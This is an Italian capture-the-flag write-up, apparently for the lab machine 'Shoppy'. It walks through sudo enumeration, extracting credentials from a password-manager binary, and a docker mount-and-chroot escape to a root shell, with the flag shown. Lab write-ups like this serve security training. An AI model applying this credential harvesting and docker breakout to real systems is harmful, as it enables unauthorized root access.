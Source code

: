 1) Facciamo sudo -l per scoprire i file in cui abbiamo i privilegi sudo:
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

2) Apriamo il file: cat /home/deploy/password-manager

3) E poi trovi la password che è Sample 
4) Ora fai l'accesso usando prima la password di jaeger e poi Sample:
jaeger@shoppy:/$ sudo --user=deploy  /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

5) Ora fai l'accesso con deploy: su deploy 
6) Se ti ricordi nella dentro il sito web di josh aveva accennato al docker, dato che ora abbiamo accesso al docker possiamo usarlo per spawnari una shell root, dal sito https://gtfobins.github.io/gtfobins/docker/#sudo
7) Esegui il comando: docker
8) Poi esegui il comando: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
10) Poi ti trovi la root.txt: cat /root/root.txt
58f6144433878ffb6c322e32b46f8ed3
